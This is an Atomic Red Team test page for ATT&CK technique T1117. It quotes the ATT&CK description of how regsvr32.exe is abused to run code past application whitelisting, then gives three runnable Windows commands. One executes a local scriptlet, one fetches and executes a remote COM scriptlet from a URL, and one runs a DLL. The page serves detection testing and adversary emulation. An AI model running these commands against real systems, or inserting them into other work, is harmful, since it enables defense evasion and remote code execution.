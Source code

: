 # T1117 - Regsvr32
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1117)
<blockquote>Regsvr32.exe is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. Regsvr32.exe can be used to execute arbitrary binaries. (Citation: Microsoft Regsvr32)

Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of, and modules loaded by, the regsvr32.exe process because of whitelists or false positives from Windows using regsvr32.exe for normal operations. Regsvr32.exe is also a Microsoft signed binary.

Regsvr32.exe can also be used to specifically bypass process whitelisting using functionality to load COM scriptlets to execute DLLs under user permissions. Since regsvr32.exe is network and proxy aware, the scripts can be loaded by passing a uniform resource locator (URL) to file on an external Web server as an argument during invocation. This method makes no changes to the Registry as the COM object is not actually registered, only executed. (Citation: SubTee Regsvr32 Whitelisting Bypass) This variation of the technique is often referred to as a "Squiblydoo" attack and has been used in campaigns targeting governments. (Citation: Carbon Black Squiblydoo Apr 2016) (Citation: FireEye Regsvr32 Targeting Mongolian Gov)

Regsvr32.exe can also be leveraged to register a COM Object used to establish Persistence via [Component Object Model Hijacking](https://attack.mitre.org/techniques/T1122). (Citation: Carbon Black Squiblydoo Apr 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Regsvr32 local COM scriptlet execution](#atomic-test-1---regsvr32-local-com-scriptlet-execution)

- [Atomic Test #2 - Regsvr32 remote COM scriptlet execution](#atomic-test-2---regsvr32-remote-com-scriptlet-execution)

- [Atomic Test #3 - Regsvr32 local DLL execution](#atomic-test-3---regsvr32-local-dll-execution)


<br/>

## Atomic Test #1 - Regsvr32 local COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| filename | Name of the local file, include path. | Path | C:\AtomicRedTeam\atomics\T1117\RegSvr32.sct|

#### Run it with `command_prompt`!
```
regsvr32.exe /s /u /i:#{filename} scrobj.dll
```
<br/>
<br/>

## Atomic Test #2 - Regsvr32 remote COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | URL to hosted sct file | Url | https://raw.github.com/BluePytools/atomic-red-team/blob/master/atomics/T1117/RegSvr32.sct|

#### Run it with `command_prompt`!
```
regsvr32.exe /s /u /i:#{url} scrobj.dll
```
<br/>
<br/>

## Atomic Test #3 - Regsvr32 local DLL execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_name | Name of DLL to Execute, DLL Should export DllRegisterServer | Path | C:\AtomicRedTeam\atomics\T1117\bin\AllTheThingsx86.dll|

#### Run it with `command_prompt`!
```
"IF "%PROCESSOR_ARCHITECTURE%"=="AMD64" (C:\Windows\syswow64\regsvr32.exe /s #{dll_name}) ELSE ( regsvr32.exe /s #{dll_name} )"
```
<br/>
